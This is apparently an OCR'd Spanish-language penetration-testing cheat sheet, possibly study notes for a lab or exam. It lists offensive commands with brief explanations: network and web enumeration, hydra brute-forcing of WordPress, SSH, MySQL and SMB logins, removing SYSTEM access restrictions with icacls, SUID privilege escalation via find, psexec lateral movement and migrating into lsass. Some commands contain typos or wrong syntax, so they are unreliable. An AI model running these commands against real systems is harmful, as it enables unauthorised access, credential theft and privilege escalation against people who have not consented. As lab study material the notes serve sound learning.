 





pgrep explorer -Ver el uid del proceso
icacls flag -Verificar permisos
icacls flag /remove:d "NT AUTHORITY\SYSTEM" -Remover restricciones de acceso a archivos
netstat -tuln 127.0.0.1 -Enumerar dispositivos en red

find / -perm -4000 2>/dev/null -Buscar archivos con permisos de SetUID, osea con privilegios de root
find / -exec /bin/rbash -p \; -quit -Elevar privilegios a traves de un shell con todos los permisos (cat /etc/shells | while read shell; do ls -l $shell 2>/dev/null; done)


____________________-

ENUMERACION

ipconfig
nmap -sn IP

ifconfig
nmap -sn IP -Enumerar la red idealmente con cherrytree
nmap -sSVC -p- IP1 -Ir almacenando la informacion

WEB
dirb o dirsearch -u -Enumerar diretorios
wpscan --url http://IP -e u -Enumeracion de usuario Wordpress - Version etc
wpscan --url http://IP/wordpress --password rockyou.txt
whatweb http://IP -Informacion de la web
hydra -l user -P unix_password.txt IP http-post-form '/wordpres/wp-login.php:log=^USER^&pwd=^PASS^:S=302'
- En lo posible hallar el wp-config.php
nmap -p80 -sSVC 

SSH
searchsploit OpenSSH x.x.x
msfconsole> OpenSSH x.x.x
hydra -L unix_users.txt -P unix_password.txt ssh://IP
ssh user@IP
crontab -l -Procesos cron
sudo -l -Ver permisos de ejecucion (Buscar como escalar en internet)
cat /etc/passwd | grep -v "nologin|false" -Ver usuarios existentes

MSQL
hydra -l root(por defecto) -P unix_password.txt mysql://IP -O manualmente con las credenciales por defecto

PIVOTING
ifconfig -Revisar si tiene mas adaptadores de red

___________ MAQUINA 2 - PIVOTING

FTP
nmap -sSCV -p21 --script=ftp-anon IP

SMB
nmaP -sSVC -p445 --script=smb-security-mode, smb-enum-shares, smb-enum-users, smb-enum-sessions IP
smbclient -L -N IP
enum4linux 
crackmapexec smb IP -p '' -u '' --shares
smbmap -H IP -u '' -p ''
hydra -P password.txt -L users.txt smb://IP
msf> smb_login
locate psexec
psexec.py user@IP
msf> search psexec
pgrep lsass
migrate 464